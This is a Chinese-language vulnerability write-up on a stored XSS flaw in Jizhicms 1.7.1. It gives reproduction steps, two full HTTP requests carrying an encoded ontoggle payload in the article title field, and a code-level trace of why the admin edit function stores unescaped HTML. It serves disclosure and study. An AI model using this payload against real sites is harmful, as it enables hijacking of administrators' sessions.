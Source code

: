 # Jizhicms 1.7.1 存储XSS漏洞

## 一、漏洞简介

## 二、漏洞影响

Jizhicms 1.7.1

## 三、复现过程

首先自己注册一个账户然后登陆，在文章标题处插入XSS payload

```
payload:<details open>

```

![1.png](images/2020_06_13/c15908e44d9349caa20ab3b72f33fb68.png)

管理员登录后台点击编辑且没有修改里面的字符串就保存的话那便会触发XSS漏洞

![2.png](images/2020_06_13/5dd8fac5fe75494b84645e0bee4d4cd6.png)

![3.png](images/2020_06_13/f743adac232840189e1df5d6cf804e39.png)

首先看一下在前台发表文章处的请求数据包

```bash
POST /user/release.html HTTP/1.1
Host: www.baidu.com:8091
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 187
Origin: http://www.baidu.com:8091
Connection: close
Referer: http://www.baidu.com:8091/user/release.html
Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=&litpic=&description=123&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

```

根据url定位到release函数

![4.png](images/2020_06_13/37ff35a2c6084e26b7cc335c22fd6c36.png)

该函数主要是先检查是否是登录状态然后检查是否存在违禁词汇，其中违禁词汇取的是webconf['mingan']的值，由前篇文章可知数据存放在数据库中然后通过缓存读取相关信息，可以直接输出一下

![5.png](images/2020_06_13/b0b264c387e14d7a820afc1ef7d1f503.png)

```
过滤的东西和XSS关系不大，主要是涉及到文章敏感汉字之类的，然后被保存到数据库中的时候<>变成了&lt; &gt;

```

![6.png](images/2020_06_13/0a4e0ebc56b045958c8447d1c977270e.png)

看下是如何进行操作的，继续跟进该函数，通过frparam函数进行操作之后对title进行赋值

![7.png](images/2020_06_13/9933cee4fbd94ee4a74702b1089c138d.png)

frparam函数在获取到相关值后调用format_param函数对数据进行处理，由于传入的int的值为1.所以对传入的参数进行了html实体编码

![8.png](images/2020_06_13/4c39e553a511405e86c9bbd92b48fbe4.png)

![9.png](images/2020_06_13/f0b5118c399242d3844191a05e0b65b2.png)

所以在数据库中存储的是进行过实体编码的xss payload

最后登入后台看下编辑函数

```bash
POST /admin.php/Article/editarticle.html HTTP/1.1
Host: www.baidu.com:8091
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 340
Origin: http://www.baidu.com:8091
Connection: close
Referer: http://www.baidu.com:8091/admin.php/Article/editarticle/id/34.html
Cookie: PHPSESSID=t616fln4me32an09rj6v67vr5b

go=1&id=34&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&tid=2&seo_title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&hits=0&keywords=&litpic=&file=&description=123&orders=0&tags=&isshow=0&addtime=2020-05-28+17%3A17%3A39&target=&ownurl=&body=%3Cp%3E123%3Cbr%2F%3E%3C%2Fp%3E

```

看一下数据中的更新情况，又将变成了<>,所以触发了XSS漏洞

![10.png](images/2020_06_13/fcc79b752738404fb2b700465d803a6d.png)

定位到漏洞函数editarticle，看到同样调用了frparam函数

![11.png](images/2020_06_13/8fc50427296d43f4b7ef79ed55ca394f.png)

frparam函数由于没有传入参数会直接返回url中的数据

![12.png](images/2020_06_13/3b6eea22dd8a47b096320c25c0faea7d.png)

在请求包中可以看到是已经将html实体化编码变成了原字符，所以data取到的数据时没有经过html编码的数据

![13.png](images/2020_06_13/540a097b13fd4a0f940117a395c2a84f.png)

所以在进行update更新操作的时候就会向数据库写入未经html实体化编码的数据

## 参考链接

> https://xz.aliyun.com/t/7861

